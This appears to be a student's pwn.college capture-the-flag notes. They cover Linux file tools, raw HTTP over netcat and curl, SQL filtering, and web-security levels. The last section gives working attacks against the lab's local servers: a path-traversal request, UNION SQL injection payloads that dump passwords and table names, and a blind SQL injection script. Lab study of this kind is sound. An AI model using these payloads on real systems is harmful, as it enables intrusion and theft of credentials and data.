                --numeric-suffixes[=FROM]  same as -d, but allow setting the start value
            -x                      use hex suffixes starting at 0, not alphabetic
                --hex-suffixes[=FROM]  same as -x, but allow setting the start value
            -e, --elide-empty-files  do not generate empty output files with '-n'
                --filter=COMMAND    write to shell COMMAND; file name is $FILE
            -l, --lines=NUMBER      put NUMBER lines/records per output file
            -n, --number=CHUNKS     generate CHUNKS output files; see explanation below
            -t, --separator=SEP     use SEP instead of newline as the record separator;
                                        '\0' (zero) specifies the NUL character
            -u, --unbuffered        immediately copy input to output with '-n r/...'
                --verbose           print a diagnostic just before each
                                        output file is opened
                --help     display this help and exit
                --version  output version information and exit

            The SIZE argument is an integer and optional unit (example: 10K is 10*1024).
            Units are K,M,G,T,P,E,Z,Y (powers of 1024) or KB,MB,... (powers of 1000).

            CHUNKS may be:
            N       split into N files based on size of input
            K/N     output Kth of N to stdout
            l/N     split into N files without splitting lines/records
            l/K/N   output Kth of N to stdout without splitting lines/records
            r/N     like 'l' but use round robin distribution
            r/K/N   likewise but only output Kth of N to stdout

            GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
            Report split translation bugs to <https://translationproject.org/team/>
            Full documentation at: <https://www.gnu.org/software/coreutils/split>
            or available locally via: info '(coreutils) split invocation'

            bash-5.2$ split /flag flag
            bash-5.2$ cat flagaa
            pwn.college{URrBonBOxDHwVm9YQv3tYUP-Ay6.dhTNxwiNxQjMyEzW}

17. `gzip`

Forces you to understand different archive formats!

    - my solution
            bash-5.2$ gzip --help
            Usage: gzip [OPTION]... [FILE]...
            Compress or uncompress FILEs (by default, compress FILES in-place).

            Mandatory arguments to long options are mandatory for short options too.

            -c, --stdout      write on standard output, keep original files unchanged
            -d, --decompress  decompress
            -f, --force       force overwrite of output file and compress links
            -h, --help        give this help
            -k, --keep        keep (don't delete) input files
            -l, --list        list compressed file contents
            -L, --license     display software license
            -n, --no-name     do not save or restore the original name and timestamp
            -N, --name        save or restore the original name and timestamp
            -q, --quiet       suppress all warnings
            -r, --recursive   operate recursively on directories
                --rsyncable   make rsync-friendly archive
            -S, --suffix=SUF  use suffix SUF on compressed files
                --synchronous synchronous output (safer if system crashes, but slower)
            -t, --test        test compressed file integrity
            -v, --verbose     verbose mode
            -V, --version     display version number
            -1, --fast        compress faster
            -9, --best        compress better

            With no FILE, or when FILE is -, read standard input.

            bash-5.2$ gzip /flag
            bash-5.2$ gzip -dc /flag.gz
            pwn.college{8vN0KV4Cmt6rScpKRmOaPKig7wz.dlTNxwiNxQjMyEzW}

18. `bzip2`

    - my solution:
            bash-5.2$ bzip2 --help
            bzip2, a block-sorting file compressor.  Version 1.0.8, 13-Jul-2019.

            usage: bzip2 [flags and input files in any order]

            -h --help           print this message
            -d --decompress     force decompression
            -z --compress       force compression
            -k --keep           keep (don't delete) input files
            -f --force          overwrite existing output files
            -t --test           test compressed file integrity
            -c --stdout         output to standard out
            -q --quiet          suppress noncritical error messages
            -v --verbose        be verbose (a 2nd -v gives more)
            -L --license        display software version & license
            -V --version        display software version & license
            -s --small          use less memory (at most 2500k)
            -1 .. -9            set block size to 100k .. 900k
            --fast              alias for -1
            --best              alias for -9

            If invoked as `bzip2', default action is to compress.
                        as `bunzip2',  default action is to decompress.
                        as `bzcat', default action is to decompress to stdout.

            If no file names are given, bzip2 compresses or decompresses
            from standard input to standard output.  You can combine
            short flags, so `-v -4' means the same as -v4 or -4v, &c.

            bash-5.2$ bzip2 /flag -v
            /flag:    0.552:1, 14.483 bits/byte, -81.03% saved, 58 in, 105 out.
            bash-5.2$ ls /
            bin  boot  challenge  dev  etc  flag.bz2  home  lib  lib32  lib64  libx32  media  mnt  nix  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
            bash-5.2$ bzip2 -dc /flag.bz2
            pwn.college{8K4e8KOfkxNUnIE7AGQs7-xXKbh.dBjNxwiNxQjMyEzW}

# HTTP

5. HTTP (netcat)

    You've learned how to HTTP (though, of course, you've probably been HTTPing for most of your life!). Now, let's learn how to really HTTP. The HTTP protocol itself, as in the exact data that is sent over the network, is actually surprisingly human-readable and human-writable. In this challenge, you'll learn to write it. This challenge requires you to use a program called "netcat" (command name: nc), which is a simple program that communicates over a network connection. Netcat's basic usage involves two arguments: the hostname (where the server is listening on, such as www.google.com for Google), and the port (the standard HTTP port is 80).

    When it starts up, netcat connects to the server and gives you a raw channel to communicate with it. You'll be talking directly with the web server, with no intermediary! How cool is that?

    Recall the lectures, find the format of an HTTP request, and make a GET request to the / endpoint (we'll do more endpoints later) to get the flag!

    HINT: Can't tell if netcat is connecting or not? Use the -v flag to turn on some verbosity!

    HINT: Typed your GET request and nothing happens after you hit Enter? HTTP requests are terminated by two newlines. Try hitting Enter again!

    - my solution:

    hacker@talking-web~http-netcat:~$ nc -v  challenge.localhost 80
    Connection to challenge.localhost (127.0.0.1) 80 port [tcp/http] succeeded!
    GET / HTTP/1.1  
    Host: challenge.localhost

    HTTP/1.1 200 OK
    Server: Werkzeug/3.0.6 Python/3.8.10
    Date: Tue, 10 Jun 2025 06:33:27 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 84
    X-Flag: pwn.college{Aqge7Wg_5orEllQUUrH3X3w8oAP.QX5YjMzwiNxQjMyEzW}
    Connection: close

    <html><head><title>Talking Web</title></head><body><h1>Great job!</h1></body></html>
    hacker@talking-web~http-netcat:~$

    - specifying the HTTP version indicates certain headers and behaviors - this version of HTTP requires the host header to be present in requests
    - host header specifies the domain name of the server you're trying to reach - especially important for servers that host multiple domains (virtual hosting) because it tells the server exactly which domain you're interested in
  
7. HTTP (python)

    Unfortunately, most of the modern internet runs on the infrastructure of a handful of companies, and a given server run by these companies might be responsible for serving up websites for dozens of different domain names. How does the server decide which website to serve? The Host header.

    The Host header is a request header sent by the client (e.g., browser, curl, etc), typically equal to the domain name entered in the HTTP request. When you go to https://pwn.college, your browser automatically sets the Host header to pwn.college, and thus our server knows to give you the pwn.college website, rather than something else.

    Until now, the challenges you've been interacting with have been Host-agnostic. Now they start checking. Set the right Host header and get the flag!

    - my solution
    - get-flag.py:
        GNU nano 8.2                      get-flag.py                                 
        import requests
        headers = {"Host": "0xf.at"}
        r = requests.get('http://challenge.localhost:80/progress', headers = headers)
        print(r.headers)
        print(r.text)

11. HTTP Host Header (netcat)

    And, finally, you can learn how Hosts are actually sent over the network in netcat. This might be a bit trickier. You can actually use curl as a source of information here! Curl's -v option causes it to print out the exact headers it's sending over (and the ones it receives!). Observe it, copy that with netcat, and get the flag!

    - my solution
        hacker@talking-web~http-host-header-netcat:~$ curl -v challenge.localhost/progress
        * Host challenge.localhost:80 was resolved.
        * IPv6: ::1
        * IPv4: 127.0.0.1
        *   Trying [::1]:80...
        * connect to ::1 port 80 from ::1 port 56298 failed: Connection refused
        *   Trying 127.0.0.1:80...
        * Connected to challenge.localhost (127.0.0.1) port 80
        * using HTTP/1.x
        > GET /progress HTTP/1.1
        > Host: challenge.localhost
        > User-Agent: curl/8.12.1
        > Accept: */*
        > 
        * Request completely sent off
        < HTTP/1.1 404 NOT FOUND
        < Server: Werkzeug/3.0.6 Python/3.8.10
        < Date: Thu, 12 Jun 2025 01:38:13 GMT
        < Content-Type: text/html; charset=utf-8
        < Content-Length: 207
        < Connection: close
        < 
        <!doctype html>
        <html lang=en>
        <title>404 Not Found</title>
        <h1>Not Found</h1>
        
The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

        * shutting down connection #0

        hacker@talking-web~http-host-header-netcat:~$ nc -v challenge.localhost 80
        Connection to challenge.localhost (127.0.0.1) 80 port [tcp/http] succeeded!
        GET /progress HTTP/1.1
        Host: pwnable.tw

        HTTP/1.1 200 OK
        Server: Werkzeug/3.0.6 Python/3.8.10
        Date: Thu, 12 Jun 2025 01:41:30 GMT
        Content-Type: text/html; charset=utf-8
        Content-Length: 224
        Connection: close

                <html>
                <head><title>Talking Web</title></head>
                <body>
                <h1>Great job!</h1>
                
pwn.college{8nY8O6TuliVy8maPBPJB7RiEObj.QXycjMzwiNxQjMyEzW}

                </body>
                </html>

17. HTTP Forms (curl)

    Now, let's try this with curl. Look at the man page to figure out how to make a post request (HINT: the most relevant option is -d).

    NOTE: Remember what we said about attackers being able to trigger whatever HTTP requests they wanted? Note how this challenge doesn't even have any functionality to make the form, but you can still hit it with the POST request!

    - my solution:
    hacker@talking-web~http-forms-curl:~$ curl -d key=zlpkzvoh "http://challenge.localhost:80/progress"

            <html>
            <head><title>Talking Web</title></head>
            <body>
            <h1>Great job!</h1>
            
pwn.college{IbwS5OL_--0hD5U-aXg9mo2i6p5.QX2gjMzwiNxQjMyEzW}

            </body>
            </html>

26. HTTP Cookies (curl)
    Include a cookie from HTTP response using curl

    - my solution:
        hacker@talking-web~http-cookies-curl:~$ curl -v http://127.0.0.1:80
        *   Trying 127.0.0.1:80...
        * TCP_NODELAY set
        * Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
        > GET / HTTP/1.1
        > Host: 127.0.0.1
        > User-Agent: curl/7.68.0
        > Accept: */*
        > 
        * Mark bundle as not supporting multiuse
        < HTTP/1.1 302 FOUND
        < Server: Werkzeug/3.0.6 Python/3.8.10
        < Date: Thu, 12 Jun 2025 08:59:25 GMT
        < Content-Length: 189
        < Location: /
        < Set-Cookie: cookie=f387c1b9a40bdb164a3bd4fab91368bd; Path=/
        < Server: pwn.college
        < Connection: close
        < 
        <!doctype html>
        <html lang=en>
        <title>Redirecting...</title>
        <h1>Redirecting...</h1>
        
You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
        * Closing connection 0
        hacker@talking-web~http-cookies-curl:~$ curl -v -b cookie=f387c1b9a40bdb164a3bd4fab91368bd http://127.0.0.1:80
        *   Trying 127.0.0.1:80...
        * TCP_NODELAY set
        * Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
        > GET / HTTP/1.1
        > Host: 127.0.0.1
        > User-Agent: curl/7.68.0
        > Accept: */*
        > Cookie: cookie=f387c1b9a40bdb164a3bd4fab91368bd
        > 
        * Mark bundle as not supporting multiuse
        < HTTP/1.1 200 OK
        < Server: Werkzeug/3.0.6 Python/3.8.10
        < Date: Thu, 12 Jun 2025 09:00:32 GMT
        < Content-Length: 60
        < Server: pwn.college
        < Connection: close
        < 
        pwn.college{EUBgsEqRRNiB6Qw6IR4E8KBQktw.QXxAzMzwiNxQjMyEzW}
        * Closing connection 0

30. Listening Web

You've been staring at web server code all this time and figuring out how to speak to it. Now, let's learn to listen.

In this level, you will write a simple server that'll receive the request for the flag! Simply copy the server code from, say, the very first module, remove anything extra, and build a web server that'll listen on port 1337 (instead of 80 --- you can't listen on port 80 as a non-administrative user) and on hostname localhost. When you're ready, run /challenge/client, and it will launch an internal web browser and visit http://localhost:1337/ with the flag!

    - my solution:
        hacker@talking-web~listening-web:~$ cat my-server
        #!/opt/pwn.college/python

        import flask
        import os

        app = flask.Flask(__name__)

        @app.route("/", methods=["GET"])
        def challenge():
            return f"""
                <html>
                <head><title>Talking Web</title></head>
                <body>
                <h1>Challenge Complete!</h1>
                
{open("/flag").read().strip()}

                </body>
                </html>
            """

        app.run("localhost", 1337)

        hacker@talking-web~listening-web:~$ /challenge/client
        Visiting http://localhost:1337 (with the flag).
        Query sent! Go see if the flag is in your logs.

# SQL

4. Exclusionary Filtering

    Here, we'll randomly tag the flag. Can you still filter it out?

    HINT: It might be easier to exclude the garbage data with your filter rather than include the flag data.

    - my solution:
        hacker@sql-playground~exclusionary-filtering:~$ cat /challenge/sql
        #!/opt/pwn.college/python

        import sys
        import string
        import random
        import sqlite3
        import tempfile

        '# Don't panic about the TemporaryDB class. It simply implements a temporary database
        '# in which this application can store data. You don't need to understand its internals,
        '# just that it processes SQL queries using db.execute().
        class TemporaryDB:
            def __init__(self):
                self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

            def execute(self, sql, parameters=()):
                connection = sqlite3.connect(self.db_file.name)
                connection.row_factory = sqlite3.Row
                cursor = connection.cursor()
                result = cursor.execute(sql, parameters)
                connection.commit()
                return result

        db = TemporaryDB()

        def random_word(length):
            return "".join(random.sample(string.ascii_letters * 10, length))

        flag = open("/flag").read().strip()

        '# https://www.sqlite.org/lang_createtable.html
        db.execute("""CREATE TABLE flags AS SELECT 1 as flag_tag, ? as flag""", [random_word(len(flag))])
        '# https://www.sqlite.org/lang_insert.html
        for i in range(random.randrange(5, 42)):
            db.execute("""INSERT INTO flags VALUES(1, ?)""", [random_word(len(flag))])
        db.execute("""INSERT INTO flags VALUES(?, ?)""", [random.randrange(1337, 313371337), flag])

        for i in range(random.randrange(5, 42)):
            db.execute("""INSERT INTO flags VALUES(1, ?)""", [random_word(len(flag))])

        '# HINT: https://www.sqlite.org/lang_expr.html
        for _ in range(1):
            query = input("sql> ")

            try:
                results = db.execute(query).fetchall()
            except sqlite3.Error as e:
                print("SQL ERROR:", e)
                sys.exit(1)

            if len(results) == 0:
                print("No results returned!")
                sys.exit(0)

            if len(results) > 1:
                print("You're not allowed to read this many rows!")
                sys.exit(1)
            if len(results[0].keys()) > 1:
                print("You're not allowed to read this many columns!")
                sys.exit(1)
            print(f"Got {len(results)} rows.")
            for row in results:
                print(f"- { { k:row[k] for k in row.keys() } }")

        hacker@sql-playground~exclusionary-filtering:~$ /challenge/sql
        sql> SELECT flag FROM flags WHERE flag_tag >= 1337
        Got 1 rows.
        - {'flag': 'pwn.college{UoHvahSIi04eB3RITz5HyV3fjqf.0lMwgDNxwiNxQjMyEzW}'}

6. Filtering on expressions

    Let's move on to more advanced filtering. We got rid of the flag tag in this challenge, and you'll need to filter on the actual values of the flag data! Luckily, SQLite (and all SQL engines in general) provide some functions for working with strings, and you'll use the substr function here. substr(some_column, start, length) extracts length characters starting from start (the first character is at position 1, not 0 as it would be in a sane language) of column some_column. You can use the result of this anywhere the query accepts expressions, such as in the WHERE clause to compare the resulting value against a string as in the previous challenge!

    - my solution:

        hacker@sql-playground~filtering-on-expressions:~$ cat /challenge/sql
        #!/opt/pwn.college/python

        import sys
        import string
        import random
        import sqlite3
        import tempfile

        `# Don't panic about the TemporaryDB class. It simply implements a temporary database
        `# in which this application can store data. You don't need to understand its internals,
        `# just that it processes SQL queries using db.execute().
        class TemporaryDB:
            def __init__(self):
                self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

            def execute(self, sql, parameters=()):
                connection = sqlite3.connect(self.db_file.name)
                connection.row_factory = sqlite3.Row
                cursor = connection.cursor()
                result = cursor.execute(sql, parameters)
                connection.commit()
                return result

        db = TemporaryDB()

        def random_word(length):
            return "".join(random.sample(string.ascii_letters * 10, length))

        flag = open("/flag").read().strip()

        `# https://www.sqlite.org/lang_createtable.html
        db.execute("""CREATE TABLE assets AS SELECT ? as record""", [random_word(len(flag))])
        `# https://www.sqlite.org/lang_insert.html
        for i in range(random.randrange(5, 42)):
            db.execute("""INSERT INTO assets VALUES(?)""", [random_word(len(flag))])
        db.execute("""INSERT INTO assets VALUES(?)""", [flag])

        for i in range(random.randrange(5, 42)):
            db.execute("""INSERT INTO assets VALUES(?)""", [random_word(len(flag))])

        `# HINT: https://www.sqlite.org/lang_corefunc.html#substr
        for _ in range(1):
            query = input("sql> ")

            try:
                results = db.execute(query).fetchall()
            except sqlite3.Error as e:
                print("SQL ERROR:", e)
                sys.exit(1)

            if len(results) == 0:
                print("No results returned!")
                sys.exit(0)

            if len(results) > 1:
                print("You're not allowed to read this many rows!")
                sys.exit(1)
            if len(results[0].keys()) > 1:
                print("You're not allowed to read this many columns!")
                sys.exit(1)
            print(f"Got {len(results)} rows.")
            for row in results:
                print(f"- { { k:row[k] for k in row.keys() } }")

        hacker@sql-playground~filtering-on-expressions:~$ /challenge/sql
        sql> SELECT record FROM assets WHERE substr(record, 1, 3) = 'pwn'
        Got 1 rows.
        - {'record': 'pwn.college{AkQvrH3VKSigWX6RRRnwP4W5YBT.0FNwgDNxwiNxQjMyEzW}'}

7. SELECTing expressions

    Functionality like substr isn't just for filtering: you can also SELECT expressions such as these (in place of or in addition to where you typically specify columns)! This is super handy when you don't want (or, in the case of this challenge, cannot retrieve) all the data, but just want the result of some computation on your data. In this case, the challenge will simply not let you read the whole flag. Can you read it piecemeal?
    - my solution:

        hacker@sql-playground~selecting-expressions:~$ cat /challenge/sql
        #!/opt/pwn.college/python

        import sys
        import string
        import random
        import sqlite3
        import tempfile

        `# Don't panic about the TemporaryDB class. It simply implements a temporary database
        `# in which this application can store data. You don't need to understand its internals,
        `# just that it processes SQL queries using db.execute().
        class TemporaryDB:
            def __init__(self):
                self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

            def execute(self, sql, parameters=()):
                connection = sqlite3.connect(self.db_file.name)
                connection.row_factory = sqlite3.Row
                cursor = connection.cursor()
                result = cursor.execute(sql, parameters)
                connection.commit()
                return result

        db = TemporaryDB()

        `# https://www.sqlite.org/lang_createtable.html
        db.execute("""CREATE TABLE payloads AS SELECT ? as payload""", [open("/flag").read().strip()])

        `# HINT: https://www.sqlite.org/lang_corefunc.html#substr
        for _ in range(1):
            query = input("sql> ")

            try:
                results = db.execute(query).fetchall()
            except sqlite3.Error as e:
                print("SQL ERROR:", e)
                sys.exit(1)

            if len(results) == 0:
                print("No results returned!")
                sys.exit(0)

            for row in results:
                for k in row.keys():
                    if type(row[k]) in (str, bytes) and len(row[k]) > 5:
                        print("You're not allowed to read this many characters!")
                        sys.exit(1)
            print(f"Got {len(results)} rows.")
            for row in results:
                print(f"- { { k:row[k] for k in row.keys() } }")

        hacker@sql-playground~selecting-expressions:~$ touch rep-script
        hacker@sql-playground~selecting-expressions:~$ nano rep-script
                #!/bin/bash

                # Assuming the flag length is known, let's say it's 30 characters for this example.
                FLAG_LENGTH=61
                CHUNK_SIZE=5

                for (( i=1; i<=FLAG_LENGTH; i+=CHUNK_SIZE )); do
                    # Run the SQL query to extract a substring
                    /challenge/sql <<< "SELECT substr(payload, $i, $CHUNK_SIZE) FROM payloads;"
                done

        hacker@sql-playground~selecting-expressions:~$ chmod a+x rep-script
        hacker@sql-playground~selecting-expressions:~$ ./rep-script
        sql> Got 1 rows.
        - {'substr(payload, 1, 5)': 'pwn.c'}
        sql> Got 1 rows.
        - {'substr(payload, 6, 5)': 'olleg'}
        sql> Got 1 rows.
        - {'substr(payload, 11, 5)': 'e{IX_'}
        sql> Got 1 rows.
        - {'substr(payload, 16, 5)': 'jMmFS'}
        sql> Got 1 rows.
        - {'substr(payload, 21, 5)': 'kIm2h'}
        sql> Got 1 rows.
        - {'substr(payload, 26, 5)': 'RZHva'}
        sql> Got 1 rows.
        - {'substr(payload, 31, 5)': 'BvAGS'}
        sql> Got 1 rows.
        - {'substr(payload, 36, 5)': 'RZYy.'}
        sql> Got 1 rows.
        - {'substr(payload, 41, 5)': '0VNwg'}
        sql> Got 1 rows.
        - {'substr(payload, 46, 5)': 'DNxwi'}
        sql> Got 1 rows.
        - {'substr(payload, 51, 5)': 'NxQjM'}

10. Querying Metadata

    In actual security scenarios, there are times where the attacker lacks certain information, such as the names of tables that they want to query! Luckily, every SQL engine has some way to query metadata about tables (though, confusingly, every engine does this differently!). SQLite uses a special sqlite_master table, in which it stores information about all other tables. Can you figure out the name of the table that contains the flag, and query it?

    - my solution:

    hacker@sql-playground~querying-metadata:~$ cat /challenge/sql
    #!/opt/pwn.college/python

    import sys
    import string
    import random
    import sqlite3
    import tempfile

    `# Don't panic about the TemporaryDB class. It simply implements a temporary database
    `# in which this application can store data. You don't need to understand its internals,
    `# just that it processes SQL queries using db.execute().
    class TemporaryDB:
        def __init__(self):
            self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

        def execute(self, sql, parameters=()):
            connection = sqlite3.connect(self.db_file.name)
            connection.row_factory = sqlite3.Row
            cursor = connection.cursor()
            result = cursor.execute(sql, parameters)
            connection.commit()
            return result

    db = TemporaryDB()

    table_name = "".join(random.sample(string.ascii_letters, 8))
    db.execute(f"""CREATE TABLE {table_name} AS SELECT ? as detail""", [open("/flag").read().strip()])

    `# HINT: https://www.sqlite.org/schematab.html
    for _ in range(2):
        query = input("sql> ")

        try:
            results = db.execute(query).fetchall()
        except sqlite3.Error as e:
            print("SQL ERROR:", e)
            sys.exit(1)

        if len(results) == 0:
            print("No results returned!")
            sys.exit(0)

        if len(results[0].keys()) > 1:
            print("You're not allowed to read this many columns!")
            sys.exit(1)
        print(f"Got {len(results)} rows.")
        for row in results:
            print(f"- { { k:row[k] for k in row.keys() } }")
    hacker@sql-playground~querying-metadata:~$ /challenge/sql
    sql> SELECT tbl_name FROM sqlite_master
    Got 1 rows.
    - {'tbl_name': 'MpJgxfYl'}
    sql> SELECT detail FROM MpJgxfYl
    Got 1 rows.
    - {'detail': 'pwn.college{0yiMfWvOHK4wyn-k-uGjPCL1AUi.0FOwgDNxwiNxQjMyEzW}'}
    hacker@sql-playground~querying-metadata:~$ 

# Intro to Cybersecurity

## Web Security

1. Path Traversal 1

This level will explore the intersection of Linux path resolution, when done naively, and unexpected web requests from an attacker. We've implemented a simple web server for you --- it will serve up files from /challenge/files over HTTP. Can you trick it into giving you the flag?

The webserver program is /challenge/server. You can run it just like any other challenge, then talk to it over HTTP (using a different terminal or a web browser). We recommend reading through its code to understand what it is doing and to find the weakness!

HINT: If you're wondering why your solution isn't working, make sure what you're trying to query is what is actually being received by the server! curl -v [url] can show you the exact bytes that curl is sending over.

- my solution
    hacker@web-security~path-traversal-1:~$ curl -v http://challenge.localhost:80/repository/%2E%2E%2F%2E%2E/flag
    * Host challenge.localhost:80 was resolved.
    * IPv6: ::1
    * IPv4: 127.0.0.1
    *   Trying [::1]:80...
    * connect to ::1 port 80 from ::1 port 56772 failed: Connection refused
    *   Trying 127.0.0.1:80...
    * Connected to challenge.localhost (127.0.0.1) port 80
    * using HTTP/1.x
    > GET /repository/%2E%2E%2F%2E%2E/flag HTTP/1.1
    > Host: challenge.localhost
    > User-Agent: curl/8.12.1
    > Accept: */*
    > 
    * Request completely sent off
    < HTTP/1.1 200 OK
    < Server: Werkzeug/3.0.6 Python/3.8.10
    < Date: Thu, 12 Jun 2025 07:10:08 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 60
    < Connection: close
    < 
    pwn.college{YFNeZ9Qv6G3Ayx3WpUe13_anpVN.QX3gzMzwiNxQjMyEzW}
    * shutting down connection #0

12. SQLi 2

    The previous level's SQL injection was quite simple to pull off and still have a valid SQL query. This was, in part, because your injection happened at the very end of the query. In this level, however, your injection happens partway through, and there is (a bit) more of the SQL query afterwards. This complicates matters, because the query must remain valid despite your injection.

    - my solution:

      - see image.
      - use `--` to comment out trailing characters to avoid error

13. SQLi 3
    If you recall, your command injection exploits typically caused additional commands to be executed. So far, your SQL injections have simply modified the conditions of existing SQL queries. However, similar to how the shell has ways to chain commands (e.g., ;, |, etc), some SQL queries can be chained as well!

    An attacker's ability to chain SQL queries has extremely powerful potential. For example, it allows the attacker to query completely unintended tables or completely unintended fields in tables, and leads to the types of massive data disclosures that you read about on the news.

    This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!
    - my solution
    - /challenge/server:
        ...
        db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
        # https://www.sqlite.org/lang_insert.html
        db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")

        @app.route("/", methods=["GET"])
        def challenge():
            query = flask.request.args.get("query", "%")

            try:

                # https://www.sqlite.org/lang_select.html
                sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
                print(f"DEBUG: {query=}")
                results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
        ...

    QUERY: %" UNION SELECT password FROM users --
    OUTPUT:
        DEBUG: query='%" UNION SELECT password FROM users --'
        127.0.0.1 - - [24/Jun/2025 06:15:17] "GET /?query=%25"+UNION+SELECT+password+FROM+users+-- HTTP/1.1" 200 -

    DISPLAY:
        Query:

        SELECT username FROM users WHERE username LIKE "%" UNION SELECT password FROM users --"

        Results:

        admin
        guest
        password
        pwn.college{gA9xl_xwW8ZeaR0RxYHRVQMF4bH.QXxkzMzwiNxQjMyEzW}

14. SQLi 4

    So far, the database structure has been known to you (e.g., the name of the users table), allowing you to knowingly craft your queries. As a developer, you might be tempted to prevent this by, say, randomizing your table names, so that an attacker can't specify them to query data that they are not supposed to. Unfortunately, this is not the slam dunk that you might think it is.

    Databases are complex and much too clever for their own good. For example, almost all modern databases keep the database layout specification itself in a table. Attackers can query this table to get the table names, field names, and whatever other information they might need!

    In this level, the developers have randomized the name of the (previously known as) users table. Find it, and find the flag!

    - my solution:
    - /challenge/server:
            ...
            db = TemporaryDB()

            random_user_table = f"users_{random.randrange(2**32, 2**33)}"
            db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
            # https://www.sqlite.org/lang_insert.html
            db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")

            @app.route("/", methods=["GET"])
            def challenge():
                query = flask.request.args.get("query", "%")

                try:
                    # https://www.sqlite.org/schematab.html
                    # https://www.sqlite.org/lang_select.html
                    sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
                    print(f"DEBUG: {query=}")
                    results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
            ...

        Query:

        SELECT username FROM REDACTED WHERE username LIKE "%" UNION SELECT tbl_name FROM sqlite_master --"
            (QUERY: %" UNION SELECT tbl_name FROM sqlite_master --)

        Results:

        admin
        guest
        users_5229999126

        Query:

        SELECT username FROM REDACTED WHERE username LIKE "%" UNION SELECT password FROM REDACTED --"
            (QUERY: %" UNION SELECT password FROM users_5229999126 --)

        Results:

        admin
        guest
        password
        pwn.college{4KLg1LTfhiP21IqEZxa55ItCKsE.QXykzMzwiNxQjMyEzW}

        

15. SQLi 5

    SQL injection happen in all sorts of places in an application and, like command injections, sometimes the result of the query is not sent back to you. With command injections, this case is easier: the commandline is so powerful that you can do a lot of things even blindly. With SQL injections, this is sometimes not the case. For example, unlike some other databases, the SQLite database used in this module cannot access the filesystem, execute commands, and so on.

    So, if the application does not show you the data resulting from your SQL injection, how do you actually leak the data? Sometimes, even if the actual data is not shown, you can recover one bit! If the result of a query can make the application act two different ways (say, redirecting to an "Authentication Success" page versus an "Authentication Failure" page), then an attacker can carefully craft yes/no questions that they can get answers to.

    This challenge gives you exactly this scenario. Can you leak the flag?

    - my solution:
    - /challenge/server:
        ...
        db = TemporaryDB()

        # https://www.sqlite.org/lang_createtable.html
        db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
        # https://www.sqlite.org/lang_insert.html
        db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")

        @app.route("/", methods=["POST"])
        def challenge_post():
            username = flask.request.form.get("username")
            password = flask.request.form.get("password")
            if not username:
                flask.abort(400, "Missing `username` form parameter")
            if not password:
                flask.abort(400, "Missing `password` form parameter")

            try:
                # https://www.sqlite.org/lang_select.html
                query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
                print(f"DEBUG: {query=}")
                user = db.execute(query).fetchone()
            except sqlite3.Error as e:
                flask.abort(500, f"Query: {query}\nError: {e}")

            if not user:
                flask.abort(403, "Invalid username or password")

            flask.session["user"] = username
            return flask.redirect(flask.request.path)
        ...

    27.0.0.1 - - [24/Jun/2025 06:46:48] "GET / HTTP/1.1" 200 -
    DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '' UNION SELECT 1, username, password FROM users WHERE username='admin' --'"
        (QUERY: ' UNION SELECT 1, username, password FROM users WHERE username='admin' --)
    127.0.0.1 - - [24/Jun/2025 06:47:17] "POST / HTTP/1.1" 302 -

    - wrote a python script to automate password testing
    - PYTHON:
        import requests
        URL = "http://challenge.localhost:80"
        flag = ""

        chars = "aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ0123456789_-.,{} "
        for i in range(1, 63):
                for c in chars:
                        payload = f" ' OR SUBSTR((SELECT password FROM users WHERE username='admin'),{i},1) = '{c}' --"

                        resp = requests.post(URL, data={"username":"admin","password":payload}, allow_redirects=False)
                        if resp.status_code==302:
                                flag+=c
                                print(f"[+] Found char {i}: {c}")
                                break
        print(f"Flag: {flag}")

    ...
    Flag: pwn.college{ILd0xw5E3A5RAULUy7j5-NPJR8h.QXzkzMzwiNxQjMyEzW}

